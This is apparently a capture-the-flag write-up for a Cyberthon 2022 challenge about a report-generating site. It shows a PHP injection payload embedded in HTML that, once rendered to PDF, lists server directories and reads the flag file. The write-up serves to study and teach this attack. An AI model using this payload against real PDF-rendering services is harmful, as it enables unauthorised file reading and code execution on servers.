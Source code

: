 ```yaml
---
created: 2024-06-11T01:33
updated: 2024-06-11T01:34
---
```


> We found a site which APOCALYPSE uses for report generation.
>
> Server seems secured! Obtain the flag residing in the server.
> The URL for this challenge:
> http://chals.cyberthon22f.ctf.sg:40101

According to the Github Issue, to add page numbers, php is enabled, so...

By using PHP injection

We get our flag

```html
Hello World
<script type="text/php">
$pdf->text(100, 150, json_encode(scandir('.')), $fontMetrics->getFont("Arial"), 10, array(0, 0, 0));
$pdf->text(100, 160, json_encode(scandir('..')), $fontMetrics->getFont("Arial"), 10, array(0, 0, 0));
$pdf->text(100, 170, json_encode(scandir('reports')), $fontMetrics->getFont("Arial"), 10, array(0, 0, 0));
$pdf->text(100, 200, file_get_contents("reports/266AB791560203B1D926F59E814ED4F820184D74.flag"), $fontMetrics->getFont("Arial"), 10, array(0, 0, 0));
</script>
```

![Screenshot 2022-05-07 at 10.04.19 AM](https://res.cloudinary.com/kumonochisanaka/image/upload/v1718084090/2024/06/013ab3fb99578922c21d2147e2d7a71c.png)

`Cyberthon{RCE_is_NOT_everything_!}`
